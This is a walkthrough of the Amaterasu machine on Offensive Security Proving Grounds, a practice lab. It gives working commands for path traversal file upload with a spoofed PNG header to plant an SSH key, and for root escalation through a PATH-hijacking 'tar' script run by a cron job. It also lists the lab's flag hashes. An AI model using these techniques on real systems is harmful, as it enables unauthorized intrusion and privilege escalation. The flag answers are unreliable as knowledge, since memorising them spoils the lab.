








# Offensive Security Proving Grounds — Amaterasu | Full Walkthrough

> **Platform:** Offensive Security Proving Grounds  
> **Machine:** Amaterasu  
> **Difficulty:** Intermediate  
> **Author:** vodanhtieutot  
> **Date:** April 2, 2026

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Network Scanning](#2-reconnaissance--network-scanning)
3. [Web Enumeration — Flask File Upload API](#3-web-enumeration--flask-file-upload-api)
4. [Initial Access — Path Traversal SSH Key Injection](#4-initial-access--path-traversal-ssh-key-injection)
5. [Foothold — User Shell as alfredo](#5-foothold--user-shell-as-alfredo)
6. [Privilege Escalation — PATH Injection via Cron](#6-privilege-escalation--path-injection-via-cron)
7. [Root Access](#7-root-access)
8. [Flags & Answers Summary](#8-flags--answers-summary)
9. [Attack Chain Summary](#9-attack-chain-summary)
10. [Tools Used](#10-tools-used)

---

## 1. Overview

**Amaterasu** is an Intermediate-level Linux machine on Offensive Security Proving Grounds. The full attack path:

```
Port Scan → Flask API Discovery → Path Traversal File Upload
→ SSH Key Injection → User Shell → Cron Script Analysis
→ PATH Hijacking → Root Shell
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `192.168.217.249` |
| OS | Fedora Linux (Kernel 5.17.12) |
| Hostname | `fedora` |
| Open Ports | 21 (FTP), 25022 (SSH), 33414 (HTTP), 40080 (HTTP) |
| Attacker | Kali Linux (`192.168.45.172`) |

---

## 2. Reconnaissance — Network Scanning

### 2.1 Port Scan

Run a comprehensive port scan:

```bash
rustscan -a 192.168.217.249 -- -sV -sC
```



**Discovered Services:**

| Port | Service | Version |
|---|---|---|
| 21/tcp | vsftpd | 3.0.3 |
| 25022/tcp | OpenSSH | 8.7 (protocol 2.0) |
| 33414/tcp | HTTP | Werkzeug/2.2.3 Python/3.9.13 |
| 40080/tcp | HTTP | Apache httpd 2.4.53 (Fedora) |

> SSH is running on **non-standard port 25022** instead of 22. Port 33414 is running a **Python Flask application**.

---

### 2.2 Web Service Enumeration

Navigate to `http://192.168.217.249:33414/`:


The API returns version information:
```json
[
  "Python File Server REST API v2.5",
  "Author: Alfredo Moroder",
  "GET /help = List of the commands"
]
```

---

## 3. Web Enumeration — Flask File Upload API

### 3.1 API Endpoint Discovery

Check the `/help` endpoint:

```bash
curl http://192.168.217.249:33414/help
```



**Available Endpoints:**
```json
[
  "GET /info : General Info",
  "GET /help : This listing",
  "GET /file-list?dir=/tmp : List of the files",
  "POST /file-upload : Upload files"
]
```

> The `/file-upload` endpoint is our primary attack surface.

---

### 3.2 Testing Directory Listing

Test the `/file-list` endpoint:

```bash
curl http://192.168.217.249:33414/file-list?dir=/etc
curl http://192.168.217.249:33414/file-list?dir=/home
```


The API allows directory traversal for reading — no path sanitization detected.

---

### 3.3 Analyzing File Upload

Intercept an upload request in Burp Suite:



**Request format:**
```http
POST /file-upload HTTP/1.1
Content-Type: multipart/form-data

Content-Disposition: form-data; name="file"; filename="test.txt"
[file content]

Content-Disposition: form-data; name="filename"
test.txt
```

**Response:**
```json
{"message": "Allowed file types are txt, pdf, png, jpg, jpeg, gif"}
```

> The API validates file extensions but can be bypassed with magic bytes.

---

## 4. Initial Access — Path Traversal SSH Key Injection

### 4.1 Exploitation Strategy

**Vulnerabilities identified:**
1. Path traversal in `filename` parameter (no sanitization of `../`)
2. Extension-based validation only (bypassable with PNG magic bytes)

**Attack plan:**
- Generate SSH key pair
- Create fake PNG containing SSH public key
- Upload to `/home/alfredo/.ssh/authorized_keys` via path traversal
- SSH in as alfredo

---

### 4.2 Generating SSH Keys

```bash
ssh-keygen -t rsa -b 2048 -f my_key -N ''
```

Creates `my_key` (private) and `my_key.pub` (public key).

---

### 4.3 Bypassing File Type Validation

Create a fake PNG with SSH key:

```bash
# PNG magic bytes + SSH public key
printf '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' > authorized_keys
cat my_key.pub >> authorized_keys
```

The PNG header (`\x89PNG...`) tricks the validator. SSH ignores it and reads the valid key.

---

### 4.4 Path Traversal Upload

Upload with path traversal:

```bash
curl -X POST \
  -F "file=@authorized_keys" \
  -F "filename=../../../../../../../../home/alfredo/.ssh/authorized_keys" \
  http://192.168.217.249:33414/file-upload
```


```json
{"message":"File successfully uploaded"}
```

---

## 5. Foothold — User Shell as alfredo

### 5.1 SSH Authentication

```bash
chmod 600 my_key
ssh -i my_key alfredo@192.168.217.249 -p 25022
```



```bash
[alfredo@fedora ~]$ id
uid=1000(alfredo) gid=1000(alfredo) groups=1000(alfredo)

[alfredo@fedora ~]$ cat local.txt
3b99fbdc6d430bfb51c72c651a261927
```

> 🚩 **User Flag:** `3b99fbdc6d430bfb51c72c651a261927`

---

### 5.2 Privilege Enumeration

```bash
sudo -l
# Requires password

find / -perm -4000 2>/dev/null
# Standard SUID binaries only
```

---

## 6. Privilege Escalation — PATH Injection via Cron

### 6.1 Automated Enumeration

Upload LinPEAS via the file upload API:

```bash
# On Kali
printf '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' > linpeas.png
cat /usr/share/peass/linpeas/linpeas.sh >> linpeas.png

curl -X POST \
  -F "file=@linpeas.png" \
  -F "filename=linpeas.sh" \
  http://192.168.217.249:33414/file-upload

# On target
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```



---

### 6.2 Critical Findings

**Finding 1: Writable PATH**
```
PATH=/home/alfredo/.local/bin:/home/alfredo/bin:/usr/local/bin:/usr/bin
```

**Finding 2: Root cron job**
```bash
cat /etc/crontab
```
```
*/1 * * * * root /usr/local/bin/backup-flask.sh
```

A backup script runs **every minute** as **root**.

---

### 6.3 Analyzing the Backup Script

```bash
cat /usr/local/bin/backup-flask.sh
```



**Script content:**
```bash
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *
```

**Vulnerability:**

| Line | Issue |
|---|---|
| `export PATH="/home/alfredo/restapi:$PATH"` | Prepends user-writable directory to PATH |
| `tar czf ...` | Calls `tar` without absolute path |

**Exploitation:** If we create `/home/alfredo/restapi/tar`, it executes **before** `/usr/bin/tar`!

---

### 6.4 PATH Hijacking Exploit

Create malicious `tar` binary:

```bash
cd /home/alfredo/restapi

cat > tar << 'EOF'
#!/bin/bash
mkdir -p /root/.ssh
cat /home/alfredo/.ssh/authorized_keys > /root/.ssh/authorized_keys
chmod 700 /root/.ssh
chmod 600 /root/.ssh/authorized_keys
/usr/bin/tar "$@"
EOF

chmod +x tar
```



**What it does:**
1. Creates `/root/.ssh/`
2. Copies our SSH key to root's `authorized_keys`
3. Sets correct permissions
4. Calls real tar to avoid detection

---

### 6.5 Triggering the Exploit

Wait for cron execution (runs every minute):

```bash
date
# Wait ~60 seconds for next minute
```


Verify the backup was created:
```bash
ls -la /tmp/flask.tar.gz
-rw-r--r-- 1 root root 1408 Apr  2 03:42 /tmp/flask.tar.gz
```

Timestamp confirms cron executed at **03:42**.

---

## 7. Root Access

### 7.1 SSH as Root

```bash
ssh -i my_key root@192.168.217.249 -p 25022
```


```bash
[root@fedora ~]# id
uid=0(root) gid=0(root) groups=0(root)
```

---

### 7.2 Root Flag

```bash
[root@fedora ~]# cat proof.txt
7958b569565d7bd88d10c6f22d1c4063
```



> 🚩 **Root Flag:** `7958b569565d7bd88d10c6f22d1c4063`

---

## 8. Flags & Answers Summary

| Flag | Location | Hash |
|---|---|---|
| **User Flag** | `/home/alfredo/local.txt` | `3b99fbdc6d430bfb51c72c651a261927` |
| **Root Flag** | `/root/proof.txt` | `7958b569565d7bd88d10c6f22d1c4063` |

---

## 9. Attack Chain Summary

```
[1] Port Scan → 4 ports open
    └─ 33414: Flask File Upload API

[2] API Enumeration
    └─ POST /file-upload (path traversal + weak validation)

[3] SSH Key Generation
    └─ ssh-keygen -t rsa -f my_key

[4] Fake PNG Creation
    └─ PNG magic bytes + SSH public key

[5] Path Traversal Upload
    └─ filename=../../../home/alfredo/.ssh/authorized_keys

[6] SSH as alfredo
    └─ user flag ✓

[7] LinPEAS Enumeration
    └─ Cron: */1 * * * * root /usr/local/bin/backup-flask.sh

[8] Script Analysis
    └─ PATH="/home/alfredo/restapi:$PATH" + tar command

[9] Malicious tar Binary
    └─ /home/alfredo/restapi/tar (copies SSH key to root)

[10] Cron Trigger
    └─ Waits 1 minute → executes as root

[11] SSH as root
    └─ root flag ✓
```

---

## 10. Tools Used

| Tool | Purpose |
|---|---|
| `rustscan` / `nmap` | Port scanning |
| `curl` | API interaction |
| `ssh-keygen` | SSH key generation |
| `LinPEAS` | Privilege escalation enumeration |
| Burp Suite | Request analysis |
